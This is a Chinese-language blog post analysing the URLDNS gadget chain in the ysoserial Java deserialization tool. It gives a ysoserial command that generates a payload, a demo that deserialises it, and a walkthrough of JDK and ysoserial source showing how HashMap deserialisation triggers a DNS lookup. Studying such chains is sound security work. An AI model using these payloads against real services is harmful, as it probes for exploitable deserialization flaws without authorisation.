

前置
Jar包的调试方法
调试器起端口的远程调试
打开diea的
Remote JVM Debug
在idea中下上断点，然后Debug，这样idea就起了一个5005端口
运行jar包
java +刚刚那一长串+ -jar xx.jar
Jar包源码的调试
在项目的pom.xml中可以发现他的主类是GeneratePayload
在这里输入需要传入的参数
然后在源码中打上断点，进行Debug操作
分析
生成payload
使用ysoserial生成payload: java -jar ysoserial.jar URLDNS "http://example.com/" > URLDNS.ser
分析反序列化触发过程
写上一个简单的触发漏洞的demo
package ysoserial.vulndemo;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
public class URLDNStest {
public static void main(String[] args) throws IOException, ClassNotFoundException {
ObjectInputStream objInput = new ObjectInputStream(new FileInputStream("D:/浏览器下载/URLDNS.ser"));
Object o1 = objInput.readObject();
//System.out.println(.readInt());
System.out.println(o1);
}
}成功触发了反序列化
在项目中也提到了是通过HashMap来触发漏洞的
我们在对应JDK的包下的HashMap类的readObject方法处打上断点，并开始Debug分析
HashMap#readObject
private void readObject(java.io.ObjectInputStream s)
throws IOException, ClassNotFoundException {
// Read in the threshold (ignored), loadfactor, and any hidden stuff
s.defaultReadObject();
reinitialize();
if (loadFactor <= 0 || Float.isNaN(loadFactor))
throw new InvalidObjectException("Illegal load factor: " +
loadFactor);
s.readInt(); // Read and ignore number of buckets
int mappings = s.readInt(); // Read number of mappings (size)
if (mappings < 0)
throw new InvalidObjectException("Illegal mappings count: " +
mappings);
else if (mappings > 0) { // (if zero, use defaults)
// Size the table using given load factor only if within
// range of 0.25...4.0
float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
float fc = (float)mappings / lf + 1.0f;
int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
DEFAULT_INITIAL_CAPACITY :
(fc >= MAXIMUM_CAPACITY) ?
MAXIMUM_CAPACITY :
tableSizeFor((int)fc));
float ft = (float)cap * lf;
threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
(int)ft : Integer.MAX_VALUE);
// Check Map.Entry[].class since it's the nearest public type to
// what we're actually creating.
SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
@SuppressWarnings({"rawtypes","unchecked"})
Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
table = tab;
// Read the keys and values, and put the mappings in the HashMap
for (int i = 0; i < mappings; i++) {
@SuppressWarnings("unchecked")
K key = (K) s.readObject();
@SuppressWarnings("unchecked")
V value = (V) s.readObject();
putVal(hash(key), key, value, false, false);
}
}
}在其中有一行是关键
putVal(hash(key), key, value, false, false);putVal是将key和value传入的方法，这里的key经过了hash函数的计算之后才传入，我们进入hash函数
HashMap#hash
static final int hash(Object key) {
int h;
return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}判断key是否为null，如果不为空就进行key.hashCode()之后和处理之后的h进行异或操作，重点是hashCode()，我们跟进
因为这个key是一个URL对象，不同的类有不同的hashCode处理方法，这里是URL类中的hashCode()方法
java.net.URL#hashCode
public synchronized int hashCode() {
if (hashCode != -1)
return hashCode;
hashCode = handler.hashCode(this);
return hashCode;
}这里有一个if判断语句，如果hashCode不为-1(已经计算过DNS)，就会直接返回hashCode，不会进行DNS解析了，所以我们需要保证hashCode为-1，如果没有计算过，就是用URL类的传输实现类计算hash，跟进hashCode
java.net.URLStreamHandler#hashCode
protected int hashCode(URL u) {
int h = 0;
// Generate the protocol part.
String protocol = u.getProtocol();
if (protocol != null)
h += protocol.hashCode();
// Generate the host part.
InetAddress addr = getHostAddress(u);
if (addr != null) {
h += addr.hashCode();
} else {
String host = u.getHost();
if (host != null)
h += host.toLowerCase().hashCode();
}
// Generate the file part.
String file = u.getFile();
if (file != null)
h += file.hashCode();
// Generate the port part.
if (u.getPort() == -1)
h += getDefaultPort();
else
h += u.getPort();
// Generate the ref part.
String ref = u.getRef();
if (ref != null)
h += ref.hashCode();
return h;
}分别是计算URL中的每一部分的hash值并相加之后返回，但是在计算host的值的时候进行了一次域名解析。
使用getHostAddress(u)得到host对应的ip地址，方便计算hash值进行存储，如果没有成功得到ip地址，就直接将域名计算后拼接进去，我们跟进getHostAddress(u)
java.net.URLStreamHandler#getHostAddress
protected synchronized InetAddress getHostAddress(URL u) {
if (u.hostAddress != null)
return u.hostAddress;
String host = u.getHost();
if (host == null || host.equals("")) {
return null;
} else {
try {
u.hostAddress = InetAddress.getByName(host);
} catch (UnknownHostException ex) {
return null;
} catch (SecurityException se) {
return null;
}
}
return u.hostAddress;
}通过getByName获取对应的ip地址

触发链
- HashMap->readObject()
- HashMap->hash()
- URL->hashCode()
- URLStreamHandler->hashCode()
- URLStreamHandler->getHostAddress()
- InetAddress->getByName
所以我们只要执行了URL->hashCode()就可以触发了
分析payload的生成过程
在URLDNS#getObject处下上断点，运行项目
URLDNS#getObject
public Object getObject(final String url) throws Exception {
//Avoid DNS resolution during payload creation
//Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
f URLStreamHandler handler = new SilentURLStreamHandler();
HashMap ht = new HashMap(); // HashMap that will contain the URL
URL u = new URL(null, url, handler); // URL to use as the Key
ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.这里是使用的和键名一样作为键值
Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
return ht;
}项目中已经有大概注释了，SilentURLStreamHandler是为了避免在生成payload的时候触发域名解析使得序列化之后hashCode不为-1导致不能成功触发解析
URLDNS#SilentURLStreamHandler
static class SilentURLStreamHandler extends URLStreamHandler {
protected URLConnection openConnection(URL u) throws IOException {
return null;
}
protected synchronized InetAddress getHostAddress(URL u) {
return null;
}
}通过继承URLStreamHandler类并重写getHostAddress方法，使得生成payload的时候不会执行URLStreamHandler#getHostAddress，而是执行的是空的URLDNS#SilentURLStreamHandler
我们通过调试来证明它
通过ht.put()将键值传入HashMap，进入put()
也是采用同样的putVal方法，我们来看看用的哪一个getHostAddress
参考
JAVA反序列化-ysoserial-URLDNS - 安全客，安全资讯平台 (anquanke.com)
p牛知识星球


- Post link: https://roboterh.github.io/2022/03/17/ysoserial%E5%88%86%E6%9E%90%E4%B9%8BURLDNS/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.